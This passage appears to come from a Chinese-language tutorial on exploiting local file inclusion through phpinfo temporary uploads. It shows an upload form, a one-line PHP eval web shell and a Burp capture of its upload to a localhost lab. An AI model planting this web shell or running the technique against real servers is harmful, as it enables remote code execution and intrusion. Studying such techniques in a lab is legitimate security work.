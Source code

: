*   html表单

文件 upload.html

```
<!doctype html>
<html>
<body>
    <form action="phpinfo.php" method="POST" enctype="multipart/form-data">
    <h3> Test upload tmp file</h3>
    <label for="file">Filename:</label>
    <input type="file" name="file"/><br/>
    <input type="submit" name="submit" value="Submit" />
</form>
</body>
</html>

```

*   浏览器访问 upload.html, 上传文件 file.txt
    
    ```
    <?php
    eval($_REQUEST["cmd"]);
    ?>
    
    ```
*   burp 查看POST 信息如下
    
    ```
    POST /LFI_phpinfo/phpinfo.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:44.0) Gecko/20100101 Firefox/44.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/LFI_phpinfo/upload.html
    Connection: close
    Content-Type: multipart/form-data; boundary=---------------------------11008921013555437861019615112
    Content-Length: 368
    
    -----------------------------11008921013555437861019615112
    Content-Disposition: form-data; name="file"; filename="file.txt"
    Content-Type: text/plain
    
    <?php
    eval($_REQUEST["cmd"]);
    ?>
    
    -----------------------------11008921013555437861019615112
    Content-Disposition: form-data; name="submit"
    
    Submit
    -----------------------------11008921013555437861019615112--
    